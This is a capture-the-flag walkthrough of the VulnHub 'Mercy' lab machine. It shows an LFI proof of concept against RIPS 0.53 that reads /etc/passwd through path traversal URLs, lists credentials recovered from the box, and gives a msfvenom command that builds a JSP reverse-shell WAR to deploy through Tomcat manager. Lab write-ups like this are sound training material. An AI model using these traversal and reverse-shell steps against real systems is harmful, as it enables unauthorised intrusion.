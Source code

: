 if we scan the port  

![]({{site.baseurl}}/assets/img/vulnhub/Mercy/port80.png)

now port 80 is open 

![]({{site.baseurl}}/assets/img/vulnhub/Mercy/brw.png)

robots.txt

![]({{site.baseurl}}/assets/img/vulnhub/Mercy/robot.png)

got to knw that /mercy /nomercy are two directories 

on `/nomercy` it's running `RIPS 0.53` with is vulnerable to LFI

![]({{site.baseurl}}/assets/img/vulnhub/Mercy/80.png)

<h3>Exploitation</h3>

# LFI

![]({{site.baseurl}}/assets/img/vulnhub/Mercy/exploitdb.png)

```
102: file $lines = file($file);
    96: $file = $_GET['file'];

PoC:
http://localhost/rips/windows/code.php?file=../../../../../../etc/passwd

File: /windows/function.php
===========================

    64: file $lines = file($file);
        58: $file = $_GET['file'];

PoC:
http://localhost/rips/windows/function.php?file=../../../../../../etc/passwd(will
```
![]({{site.baseurl}}/assets/img/vulnhub/Mercy/lfi.png)

```
thisisasuperduperlonguser:heartbreakisinevitable
fluffy:freakishfluffybunny
```
# ApacheTomcat
now with this creds we can login into tomcat manager and deploy shell for reverseConnection

**shell**

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war
```
![]({{site.baseurl}}/assets/img/vulnhub/Mercy/shellwar.png)
